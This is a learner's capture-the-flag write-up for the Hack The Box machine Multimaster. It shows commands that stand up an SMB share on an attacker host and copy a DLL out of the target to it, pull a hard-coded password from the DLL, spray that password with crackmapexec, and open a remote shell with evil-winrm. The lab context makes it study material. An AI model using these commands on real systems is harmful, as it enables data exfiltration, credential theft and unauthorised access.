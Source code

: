 
![[Pasted image 20240927040947.png]]

Let's copy the .dll and do some reverse engineering.


So to copy the file let's fire up a SMB share and copy the .dll their
```
impacket-smbserver Hackthebox $(pwd) -smb2support -user testing -password testing
```

Get a NEW PS-Drive 
So to do that we have to put the user and password in Credential Object.
```
$pass = convertto-securestring 'testing' -AsPlainText -Force 
```

```
$cred= New-Object System.Management.Automation.PSCredential('testing', $pass)
```

```
New-PSDrive -Name testing -PSProvider FileSystem -Credential $cred -Root \\10.10.16.6\Hackthebox
```

![[Pasted image 20240927042918.png]]


```
Copy-Item "C:\inetpub\wwwroot\bin\MultimasterAPI.dll" -Destination "testing"
```


```
copy C:\inetpub\wwwroot\bin\MultimasterAPI.dll testing
```


```
Copy-Item "C:\inetpub\wwwroot\bin\MultimasterAPI.dll" -Destination "C:\Users\alcibiades\Documents"
```


SO now i finally know why to look into this directory as this questions raised 1st thing in my mind.
![[Pasted image 20241002023222.png]]

So i was right we have to copy the file were we have write permission and u have guessed it right in the windows spoolers directory.

```
copy MultimasterAPI.dll C:\Windows\System32\spool\drivers\color
```
![[Pasted image 20241002023910.png]]

So the file has been copied and will try to extract the password from it
Before copying it in windows or running ilspy in kali will use strings against it
It's something new that i am learning
```
strings MultimasterAPI.dll
```


Got nothing when we run it but it has some encoding techniques let's look into it
```
strings -e l MultimasterAPI.dll
```
![[Pasted image 20241002024952.png]]


```
finder
```

```
D3veL0pM3nT!
```


We got the password but i don't the username where we can use it but it's related to database which could be sql user.

Learnt a new thing  more of a mistake i was doing

![[Pasted image 20241002030046.png]]
```
crackmapexec smb 10.10.10.179 -u nn_user.txt -p D3veL0pM3nT!
```

It's good that i am making this mistakes cuz i don't want to do that in real exam and loss the initial change of getting into the network.
![[Pasted image 20241002030135.png]]


Got the user
```
sbauer
```


```
evil-winrm -u 'sbauer' -p 'D3veL0pM3nT!' -i 10.10.10.179
```

I think now we can run the bloodhound and all or have to do escalation not sure about it.
SO it's not always escalation here we can see that we got the password of another user means we are doing lateral movement.


